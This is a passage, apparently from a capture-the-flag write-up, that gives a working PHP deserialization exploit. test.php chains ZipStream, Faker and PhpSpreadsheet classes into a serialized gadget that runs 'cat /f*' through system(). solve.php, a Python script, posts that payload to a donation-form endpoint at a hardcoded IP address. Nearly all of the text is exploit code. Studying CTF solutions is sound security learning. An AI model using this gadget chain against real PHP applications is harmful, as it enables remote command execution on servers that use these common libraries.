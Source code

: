     namespace ZipStream {
        class Stream {
            protected $stream;

            public function __construct($stream)
            {
                $this->stream = $stream;
            }
        }
    }

    ```

test.php

    ```php
    <?php


    require_once './x.php';

    $arg = new \ZipStream\Stream("cat /f*");
    $fk = new \Faker\ValidGenerator($arg, "system");
    $cel = new \PhpOffice\PhpSpreadsheet\Collection\Cells($fk);
    $des = new \PhpOffice\PhpSpreadsheet\Worksheet\Worksheet($cel);

    $ser = serialize($des);
    $b64 = base64_encode($ser);
    echo $b64;

    ```

solve.php

    ```python
    import httpx

    URL = "http://3.14.248.34:9024"
    # URL = "http://localhost:9024"

    class BaseAPI:
        def __init__(self, url=URL) -> None:
            self.c = httpx.Client(base_url=url)
        def welcome_to_the_donation_form(self, is_anonymous, submit_donation, name, email, amount):
            return self.c.post("/welcome-to-the-donation-form/", data={
                "name": name,
                "email": email,
                "amount": amount,
                "is_anonymous": is_anonymous,
                "submit_donation": submit_donation,
            })
    class API(BaseAPI):
        ...

    if __name__ == "__main__":
        api = API()
        import os, base64
        payload = os.popen("php ./test.php").read()
        payload = base64.b64decode(payload.encode()).decode()
        print(payload)
        res = api.welcome_to_the_donation_form(payload, "Submit", "admin", "admin@localhost", "100")
        print(res.status_code)
        print(res.text)
